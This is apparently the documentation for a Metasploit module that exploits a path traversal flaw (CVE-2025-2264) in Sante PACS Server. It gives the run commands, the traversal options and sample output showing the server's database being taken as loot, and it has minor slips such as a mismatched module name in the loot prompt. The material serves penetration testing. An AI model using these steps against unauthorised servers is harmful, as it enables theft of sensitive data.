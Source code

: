 ## Vulnerable Application

This module exploits a path traversal vulnerability in Sante PACS Server <= v4.1.0 (CVE-2025-2264) to read arbitrary files from the system.

## Testing

The software can be obtained from
[the vendor](https://www.santesoft.com/win/sante-pacs-server/download.html).

By default, the server listens on TCP port 3000 on all network interfaces.

**Successfully tested on**

- Sante PACS Server v4.1.0 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf > use auxiliary/gather/pacsserver_traversal
msf auxiliary(gather/pacsserver_traversal) > set RHOSTS <IP>
msf auxiliary(gather/pacsserver_traversal) > run
```

This should return the database for the web server. Any files retrieved will
be stored as loot.

## Options

### FILE
The file to be retrieved from the file system. By default, this is the database for the web server, HTTP.db. However, any arbitrary
file can be specified.

Example: /.HTTP/HTTP.db

### DEPTH
The traversal depth. The FILE path will be prepended with /assets/ + ../ * DEPTH.

## Scenarios

Running the exploit against v4.1.0 on Windows 22H22 should result in an output similar to the following:

```
msf auxiliary(gather/pacsserver_traversal) > run
[*] Running module against 192.168.137.217

[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] File retrieved: /assets/../../.HTTP/HTTP.db
[*] File saved as loot.
[*] Auxiliary module execution completed

```

The file will be stored as loot:

```
msf auxiliary(gather/upsmon_traversal) > loot

Loot
====

host             service  type                         name                                 content     info                                               path
----             -------  ----                         ----                                 -------     ----                                               ----
192.168.137.217           pacsserver.file              /.HTTP/HTTP.db                       text/plain  File retrieved through PACS Server path traversal.  /home/foo/.msf4/loot/20250502165539_default_192.168.137.217_pacsserver.file_594385.txt
```
